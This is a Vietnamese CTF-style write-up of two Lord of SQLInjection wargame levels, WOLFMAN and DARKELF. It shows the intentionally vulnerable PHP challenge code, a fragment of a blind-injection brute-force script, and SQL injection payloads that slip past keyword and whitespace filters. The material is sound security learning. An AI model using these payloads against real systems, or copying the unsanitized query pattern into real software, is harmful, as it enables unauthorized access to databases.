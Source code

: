 ```python
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#095a9852#
```

## WOLFMAN

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

Câu này filter whitespace vì vậy ta bypass bằng `/**/, %0a, %09, %0d, (), +`&#x20;

`payload = 1%27%0dor%0did=%27admin%27--%0d-`

## DARKELF

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

#### filter: or and \_ . ()

\=> Thay or = ||

`payload = '1|| id = 'admin' -- -`
